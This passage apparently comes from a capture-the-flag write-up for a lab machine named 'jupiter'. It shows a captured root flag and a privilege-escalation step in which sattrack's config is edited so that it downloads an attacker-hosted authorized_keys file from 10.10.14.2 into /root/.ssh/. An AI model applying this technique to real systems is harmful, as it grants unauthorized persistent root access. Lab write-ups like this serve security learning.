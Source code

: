 ```
		"name": "LORCA",
		"lat": 37.6725,
		"lon": -1.5863,
		"hgt": 335.0
	},
	
	"show": [
	],
	
	"columns": [
		"name",
		"azel",
		"dis",
		"geo",
		"tab",
		"pos",
		"vel"
	]
}
```

Got a bite on my server, and got root flag.

```bash
juno@jupiter:/tmp/tle$ ls
'gp.php?GROUP=starlink&FORMAT=tle'   id_rsa   noaa.txt   raccoonbash   root.txt
juno@jupiter:/tmp/tle$ cat root.txt
945e04d8fbd----------------------
```

<h1>SSH to Root</h1>

But that was only the root flag, and I wasn't done just yet. Within sattrack we have the ability to set the root directory for the files to go into, and with that we can access a remotely hosted authorized_keys files for ssh access. The modified parts of the config would be as follows:

```
        "tleroot": "/root/.ssh/",
        "tlefile": "weather.txt",
        "mapfile": "/usr/local/share/sattrack/map.json",
        "texturefile": "/usr/local/share/sattrack/earth.png",

        "tlesources": [
                "http://10.10.14.2/authorized_keys"
        ],
```
